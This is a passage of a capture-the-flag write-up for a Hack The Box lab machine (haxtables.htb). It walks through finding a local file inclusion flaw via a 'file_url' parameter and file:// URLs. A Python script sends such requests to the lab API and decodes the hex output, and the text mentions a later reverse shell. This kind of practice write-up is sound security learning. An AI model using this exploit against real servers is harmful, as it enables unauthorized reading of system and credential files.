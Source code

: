 ![image](https://user-images.githubusercontent.com/114393219/219801079-2792bc4d-ec10-43ff-9621-abb8468e3cbc.png)

# Foothold

Now at this step the machine get's interesting  😁 .
<br>
The instresting thing that got my attention is .....this part =>
![image](https://user-images.githubusercontent.com/114393219/219802748-6b515f3f-2bda-4090-82f4-ca3739dd595f.png)
<br>
I think LFI is possible(maybe) here if we caan intercept the request and change the ``file_url`` parameter .

When accessing the conversion page, we notice the presence of a panel in which we can enter data, which will be converted to its corresponding specific conversion format. and from the above image we can see that the request is being sent if we use ``sting2hex`` .

![image](https://user-images.githubusercontent.com/114393219/219803811-dccad7f4-a7c8-4fc0-a92c-3d3398fe8025.png)

<br>
Now open Burp Suite and intercept this request . If we intercept the request,, we can see that it is directed to the handler route, in which three parameters are sent:  ``action`` , ``data`` and ``uri_path`` . These parameters turn out to be crucial as we will use them later to create a reverse shell.

![image](https://user-images.githubusercontent.com/114393219/219804366-c2e64801-52be-4631-a4e7-82be2eeb53d1.png)

This platform has an API menu that presents us with various ways to use its API. One of them involves sending POST requests that include data in JSON format. One of the parameters in such requests is file_url, which allows us to exploit the file protocol and access system files.

The ``file`` protocol is a network protocol used to access files hosted on a local or remote system. This protocol integrates with the file system and allows programs to access files over the network as if they were on the local system.
However, this integration can result in a vulnerability if it is not implemented securely. For example, if an application allows users to specify a URL that includes the "file" protocol, an attacker can attempt to access sensitive files on the remote system.

In our intresting part that I found earlier we can convert it into python script but it is not optimised and we get output in hexadececimal format . <br>
So for Optimized output, use this python script as it convert the output hexadecimal to strings .

````
import requests
import json

def lfi(fil):
    json_data = {
        'action': 'str2hex',
        'file_url' : f"file://{fil}"

    }
    print(json_data)

    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php',json=json_data)
    data = json.loads(response.text)
    hex_string = data["data"]
    bytes_object = bytes.fromhex(hex_string)
    string = bytes_object.decode()
    print(string)
    #print(response.text)


def main():
    while True:
````